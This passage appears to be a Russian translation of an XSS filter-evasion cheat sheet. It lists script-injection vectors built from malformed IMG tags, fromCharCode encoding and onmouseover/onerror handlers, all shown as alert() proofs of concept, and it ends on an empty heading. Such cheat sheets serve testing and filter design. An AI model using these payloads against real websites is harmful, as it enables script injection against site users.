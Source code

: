 (Submitted by David Cross, Verified on Chrome)

### Неправильные IMG тэги

Этот метод XSS использует упрощенный механизм рендеринга для создания вектора XSS в теге IMG (который должен быть заключен в кавычки). Мы считаем, что этот подход изначально предназначался для исправления небрежного кодирования, а также значительно усложнил бы корректный анализ HTML-тегов:

```html
<IMG """><SCRIPT>alert("XSS")</SCRIPT>"\>
```

(Первоначально найдено пользователем Begeek, но было очищено и сокращено для работы во всех браузерах)

### fromCharCode

Если система не допускает каких-либо кавычек, вы можете выполнить `eval()` с методом `fromCharCode`  в JavaScript, чтобы создать нужный вам XSS-вектор:

```html
<a href="javascript:alert(String.fromCharCode(88,83,83))">Click Me!</a>
```

### Тег SRC по умолчанию для прохождения фильтров, проверяющих домен SRC

Эта атака позволяет обойти большинство доменных фильтров SRC. Вставка JavaScript в обработчик событий также применима к любым типам HTML-тегов с использованием таких элементов, как Form, Iframe, Input, Embed и т.д. Это также позволяет заменять тип тега любым соответствующим событием, таким как `onblur` или `onclick, обеспечивая обширные вариации перечисленных здесь вводов:

```html
<IMG SRC=# onmouseover="alert('xxs')">
```

(Представлено Дэвидом Кроссом и отредактировано Абдуллой Хуссамом)

### Тег SRC по умолчанию, оставив его пустым

```html
<IMG SRC= onmouseover="alert('xxs')">
```

### Тег SRC по умолчанию, полностью исключив его

```html
<IMG onmouseover="alert('xxs')">
```

### При появлении предупреждения об ошибке

```html
<IMG SRC=/ onerror="alert(String.fromCharCode(88,83,83))"></img>
```

### Кодировка IMG onerror и предупреждений JavaScript
